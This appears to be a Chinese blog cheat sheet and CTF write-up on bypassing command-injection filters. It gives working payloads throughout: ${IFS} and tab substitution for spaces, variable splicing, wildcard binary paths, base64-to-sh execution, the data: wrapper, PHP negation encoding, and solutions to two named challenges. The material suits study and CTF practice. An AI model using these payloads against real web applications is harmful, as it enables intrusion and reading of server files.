










关于命令执行绕过的一些总结
空格过滤
${IFS}
形式：
1 | ${IFS}、${IFS}$、$IFS$加数字（$IFS$1）、${IFS |
重定向符（<>）
形式：
<>、<
%09(需要php环境)(tab键)
管道符绕过
|直接执行后面的语句
||：具有短路效果，左边是true，右边不执行。
&：无论左边是false还是true，&前面和后面命令都要执行
&&如果前面为假，后面的命令也不执行，如果前面为真则执行两条命令
Linux下多了一个;管道符，作用和&一样.
命令执行变量拼接
1 | root@kali:~# a=c;b=at;c=fl;d=ag;$a$b $c$d |
base64编码（无字母rce）
我们就可以通过通配符进行匹配命令执行查看flag.php
payload：?c=/???/????64 ????.???
意思是 /bin/base64 flag.php
bzip2的使用
bzip2是linux下面的压缩文件的命令
我们可以通过该命令压缩flag.php 然后进行下载
payload：?c=/???/???/????2 ????.???
也就是/usr/bin/bzip2 flag.php
单引号、双引号绕过
1 | root@kali:~# c""at fl''ag |


反斜线
1 | root@kali:~# c\at fl\ag |
cat绕过
当cat 被过滤时，可以使用如下命令代替：

内敛执行绕过
反引号 和 $(命令)都是执行命令的方式
1 | ?ip=127.0.0.1;cat$IFS$9`ls` |

通配符绕过
？字符代表单个字符；
如果要匹配多个字符，就需要多个？连用。
?不能匹配空字符，也就是说它占据的位置必须要有字符存在。
?c=system(‘cat f‘);*
/bin/cat /bin/是一个目录
*代表任意数量的字符，可以匹配空字符。
? 通配符匹配文件名中的 0 个或 1 个字符，而 ***** 通配符匹配零个或多个字符。
过滤bash用sh执行
1 | echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh //1Y2F0IGZsYWcucGhw->cat flag.php |
利用文件包含绕过（无法使用反引号时可以考虑）
1 | get: |
伪协议绕过
1 | payload c=data:text/plain, system('cat f*') |
异或 取反
例子
代码执行 ctfhub hate-php（取反）
1 |
|
代码分析：preg_match过滤了flag ph等关键字包括一些符号，get_defined_functions()函数的意思就是将里面的函数都过滤掉了，assert()将字符串当做PHP代码执行。

- 因此题目的关键在于：过滤了关键字和符号，并且过滤了函数，可以利用的点就是通过assert函数读取命令。采用取反绕过。
取反：https://www.cnblogs.com/v01cano/p/11736722.html
尝试使用**print_r(scandir(‘.’))**命令读取当前目录的文件：
1 | //生成代码 |

要在该加括号的地方对应加上括号：
1 | /?code=(~%8F%8D%96%91%8B%A0%8D)((~%8C%9C%9E%91%9B%96%8D)((~%D1))) |

再使用同样的方法编码获取flag，因为highlight_file()函数也被过滤掉了：
1 | //生成代码 |
提交得到flag。
命令执行：buuctf- ping ping ping（空格过滤，变量拼接）
https://www.cnblogs.com/wangtanzhi/p/12246386.html
- 打开页面只有一个?ip=的提示，看到ip想到命令执行，尝试传递参数：?ip=127.0.0.1
发现有返回结果：

修改大小写发现操作系统为Linux，
- 直接使用管道符进行目录查询：
?ip=127.0.0.1| ls
- 发现提示过滤了空格，
1 | 空格过滤的绕过方式： |
- 逐个进行尝试:
1 | 发现第二个$IFS$加数字可以绕过： |

- 读取flag.php，发现flag被过滤了，尝试使用变量拼接：
1 | ?ip=127.0.0.1|a=g;cat$IFS$1fla$a.php |
- 发现没有返回，换一个管道符就可以了：
1 | ?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php |

文章参考
https://www.cnblogs.com/iloveacm/p/13687654.html
CTF 命令执行 - Jim_2g - 博客园 (cnblogs.com)